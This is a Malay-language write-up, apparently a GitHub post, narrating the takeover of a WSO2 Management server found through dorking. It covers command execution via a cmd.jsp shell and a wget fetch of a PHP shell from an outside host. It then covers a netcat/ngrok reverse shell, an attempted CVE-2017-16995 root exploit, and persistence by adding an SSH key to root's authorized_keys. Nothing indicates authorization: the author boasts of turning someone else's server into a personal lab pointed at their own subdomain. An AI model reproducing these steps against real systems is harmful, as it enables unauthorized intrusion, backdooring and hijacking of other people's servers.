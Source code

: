 # Write-Up [WSO2 Management]

Assalamualaikum, so harini nak buat writeup dari PoC [WSO2 Management] kepada SSH(berserta Privilege Escalation).

Disini saya telah berjaya meng-eksploitasi satu urls dengan menggunakan teknik dorking.

![Screenshot_251](https://user-images.githubusercontent.com/21289340/233838651-b3cd945d-9286-4ab6-b4fe-d4181f012cfc.png)

Setelah saya berjaya meng-eksploitasi urls tersebut, saya terus mencuba mendapatkan user dengan menggunakan `whoami`.
Disini mungkin agak sedikit "LUCKY" apabila output yang tampil adalah "root".

![Screenshot_4](https://user-images.githubusercontent.com/21289340/233838875-c2a7ec20-1738-467d-9932-51794a527bfd.png)

Seperti biasa, saya akan mencuba untuk melakukan pencarian untuk mencari aplikasi yang tersedia seperti php, python, apache2, nginx, perl, wget dan curl.
Sebelumnya php dan apache2 tidak tersedia di dalam server. Kemudian saya cuba untuk menginstall secara direct melalui basic unix command disebabkan privilege yang telah ada iaitu 'root', di bawah ini adalah output ditampilkan setelah saya berjaya menginstall package tersebut.

![Screenshot_253](https://user-images.githubusercontent.com/21289340/233839227-11762819-8976-4c4d-bc08-20a7ba9787bb.png)
![Screenshot_243](https://user-images.githubusercontent.com/21289340/233839297-0b89acab-46b6-4613-87ae-6b9de6d89f8f.png)

Seterusnya, saya ingin membuat back-connect, kerana shell yang tersedia iaitu "cmd.jsp" tidak memuaskan dan mungkin jalan kerja terlalu banyak.
Lalu saya cuba memanggil php shell dengan menggunakan 'wget myshell.my/raw.txt -O corntoll.php'.
Dibawah ini adalah tampilan setelah saya berjaya memanggil file php tersebut.

![Screenshot_21](https://user-images.githubusercontent.com/21289340/233839663-58ee9510-a961-4cc2-bc8c-c2a0578e0724.png)

Dan dibawah ini adalah tampilan setelah saya berjaya mengexecute corntall.php

![Screenshot_254](https://user-images.githubusercontent.com/21289340/233839590-01632a7d-dc0e-4bbd-a97d-d201aaae1a31.png)

Seterusnya, saya terus membuat back-connect/reverse php shell tersebut.

![Screenshot_9](https://user-images.githubusercontent.com/21289340/233839749-e4bccb03-9c77-4ac1-b215-eaf3cec304da.png)

Kemudian, saya listen seperti biasa menggunakan ngrok dan netcat.

![Screenshot_8](https://user-images.githubusercontent.com/21289340/233839800-99cfcaa3-3708-4872-b962-15c25c72f0f4.png)

Lalu, back-connect/reverse telah berjaya dilakukan.

![Screenshot_255](https://user-images.githubusercontent.com/21289340/233839892-6b79cd2f-5895-4893-808f-fcd58adbc4bc.png)

Disini saya memanggil fully interactive TTYs menggunakan Python3. Seterusnya, saya cuba mendapatkan user.

![Screenshot_11](https://user-images.githubusercontent.com/21289340/233840096-c8307a44-ab63-471e-a823-a2ff851d9f58.png)

Saya cuba untuk mendapatkan akses 'ROOT' daripada back-connect dengan cara mengeksploitasi CVE-2017-16995.

![Screenshot_22](https://user-images.githubusercontent.com/21289340/233840258-926a6fc8-2e39-4bc6-b3f3-35aa04bf1623.png)
![Screenshot_259](https://user-images.githubusercontent.com/21289340/233841650-b66761ff-bd93-4c88-8185-812c336bf98e.png)

Tetapi ianya gagal setelah saya compile dan cuba untuk meng-eksploitasi kernel tersebut. Mungkin disebabkan version kernel server dan CVE agak berbeza satu angka?

![Screenshot_12](https://user-images.githubusercontent.com/21289340/233840359-1d9558f7-faa7-4a2b-9205-5ea091398a61.png)

Disini saya juga telah mencuba membuat 'chown' dan 'chmod +x' untuk memastikan CVE tersebut mendapatkan akses permission yang lengkap namun gagal.

![Screenshot_13](https://user-images.githubusercontent.com/21289340/233840470-60d57594-b262-499a-9daf-4b53210b1082.png)
![Screenshot_14](https://user-images.githubusercontent.com/21289340/233840477-807c9c8c-6342-4765-a23d-5b8df941dff3.png)

Jadi, saya cuba untuk menggunakan cara lain dimana saya telah mendapat idea untuk menggunakan SSH. Disini saya membuat semakan sama ada aplikasi SSH sedang berjalan ataupun tidak.

![Screenshot_247](https://user-images.githubusercontent.com/21289340/233840715-20e3c028-11ec-4d67-a65f-63c7a5e546b2.png)
![Screenshot_249](https://user-images.githubusercontent.com/21289340/233840646-9005c029-ff75-499b-a8ad-1b72e722f25a.png)

Ianya menunjukkan bahawa SSH tidak active, jadi saya mengaktifkan aplikasi SSH tersebut seperti yang dibawah.

![Screenshot_256](https://user-images.githubusercontent.com/21289340/233840612-69994d7e-1524-4b33-bdbd-02bb88ceef58.png)

Setelah servis SSH aktif, saya terus cuba login tapi gagal dengan error yang ditampilkan dibawah.

![Screenshot_257](https://user-images.githubusercontent.com/21289340/233840786-fc5f1aa2-d87f-46e2-abfd-0d84b9e32757.png)

Jadi, saya cuba untuk generate ssh-key sendiri dan menambah public key tersebut ke file '/root/.ssh/authorized_keys' seperti yang ditampilkan. 

![Screenshot_16](https://user-images.githubusercontent.com/21289340/233840923-3a8981d8-6b47-441f-b3a2-934018ec87d2.png)

Lalu, saya terus cuba untuk login daripada console Powershell.

![Screenshot_17](https://user-images.githubusercontent.com/21289340/233840965-ef26b465-0493-47d0-90eb-e3a0cd466a76.png)

Apabila melihat login SSH telah berjaya, saya terus melakukan semakan user menggunakan 'whoami'.

![Screenshot_18](https://user-images.githubusercontent.com/21289340/233841040-f98a4bd4-a159-462b-bc56-2841b967ef4c.png)

"BOOM!" root. Bukan sahaja akses root, malah saya juga telah mendapatkan akses direct kepada SSH.
Sekarang ianya telah menjadi LABORATORY peribadi saya. Server itu juga telah dipointing kepada sub-domain saya sendiri.

Setelah melakukan penyiasatan dengan lebih lanjut, saya mendapati bahawa server tersebut menggunakan Tomcat Apache, dimana ianya menggunakan Java.
Disitu, 'cmd.jsp' telah di eksploitasi untuk mendapatkan akses SSH root. 

BIG THANKS TO PARI MALAM
